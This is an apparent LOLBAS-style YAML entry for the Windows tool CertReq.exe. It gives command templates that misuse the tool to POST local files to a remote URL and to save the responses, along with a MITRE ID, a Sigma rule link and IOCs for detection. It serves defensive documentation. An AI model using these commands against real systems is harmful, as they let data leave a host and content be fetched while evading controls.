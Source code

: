 ```yaml
---
Name: CertReq.exe
Description: Used for requesting and managing certificates
Author: David Middlehurst
Created: 2020-07-07
Commands:
  - Command: CertReq -Post -config {REMOTEURL} {PATH_ABSOLUTE} {PATH:.txt}
    Description: Send the specified file (penultimate argument) to the specified URL via HTTP POST and save the response to the specified txt file (last argument).
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: CertReq -Post -config {REMOTEURL} {PATH_ABSOLUTE}
    Description: Send the specified file (last argument) to the specified URL via HTTP POST and show response in terminal.
    Usecase: Upload
    Category: Upload
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\certreq.exe
  - Path: C:\Windows\SysWOW64\certreq.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_susp_certreq_download.yml
  - IOC: certreq creates new files
  - IOC: certreq makes POST requests
Resources:
  - Link: https://dtm.uk/certreq
Acknowledgement:
  - Person: David Middlehurst
    Handle: '@dtmsecurity'
---
```

